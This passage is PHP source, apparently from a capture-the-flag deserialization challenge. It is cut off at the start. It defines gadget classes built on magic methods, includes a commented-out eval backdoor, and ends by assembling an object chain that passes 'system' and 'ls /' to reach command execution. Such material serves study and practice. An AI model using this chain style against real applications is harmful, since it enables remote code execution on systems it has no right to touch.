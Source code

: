 ```php
    public $a;
    public $b;
    public function __toString()
    {
        $this->a->see();
        return "1";
    }
}
class C
{
    public $a;
    public $b;
    public function __toString()
    {
        $this->a->read();
        return "lock lock read!";
    }
}
class D
{
    public $a;
    public $b;
    public function read()
    {
        $this->b->learn();
    }
}
class E
{
    public $a;
    public $b;
    public function __invoke()
    {
        $this->a = $this->b." Powered by PHP";
    }
    public function __destruct(){
        //eval($this->a); ??? 吓得我赶紧把后门注释了
        //echo "???";
        die($this->a);
    }
}
class F
{
    public $a;
    public $b;
    public function __call($t1,$t2)
    {
        $s1 = $this->b;
        $s1();
    }
}
class SomeClass{
    public $a;
}
$a=new A();
$arr=new ArrayObject();
$arr->a='system';
$arr->b='ls /';
$a->b=$arr;
$b=new B();
$b->a=$a;
$e=new E();
$e->a=$b;
```
